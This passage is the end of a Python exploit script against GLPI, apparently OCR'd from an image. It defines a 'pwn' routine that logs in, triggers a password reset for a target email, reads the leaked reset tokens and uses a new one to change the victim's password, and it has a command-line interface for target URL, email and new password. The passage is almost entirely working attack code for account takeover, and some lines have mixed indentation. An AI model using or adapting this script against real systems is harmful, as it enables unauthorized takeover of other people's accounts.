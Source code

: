 ```python
            "password2": password,
            "password_forget_token": token,
            "update": "Save",
            "_glpi_csrf_token": csrf_token
        }
        
        r = self.session.post('{}/front/lostpassword.php'.format(self.url), data=data)
        return 'Reset password successful' in r.text
    
    
    def pwn(self, email, password):
        
        if not self.login():
            print ("[-] Login error")
            return
        
        tokens = self.get_forget_token()
        if tokens is None:
            tokens = []
        
        if email:
            if not self.lost_password_request(email):
                print ("[-] Lost password error: could not request")
                return
            
            new_tokens = self.get_forget_token()
			print("New Tokens:", new_tokens)#chatgpt edit

            if new_tokens is not None:  #chatgpt recommendation
	            res = list(set(new_tokens) - set(tokens))
	            if res:
	                for token in res:
	                    if self.change_password(email, password, token):
	                        print ("[+] Password changed! ;)")
	                        return
            else:
                print("[-] Error getting new tokens") # chatgpt recommendation
        
        
if __name__ == '__main__':
    
    parser = argparse.ArgumentParser()
    parser.add_argument("--url", help="Target URL", required=True)
    parser.add_argument("--user", help="Username", required=True)
    parser.add_argument("--password", help="Password", required=True)
    parser.add_argument("--email", help="Target email")
    parser.add_argument("--newpass", help="New password")
    
    args = parser.parse_args()
    
    g = GlpiBrowser(args.url, user=args.user, password=args.password)
    
    g.pwn(args.email, args.newpass)
```
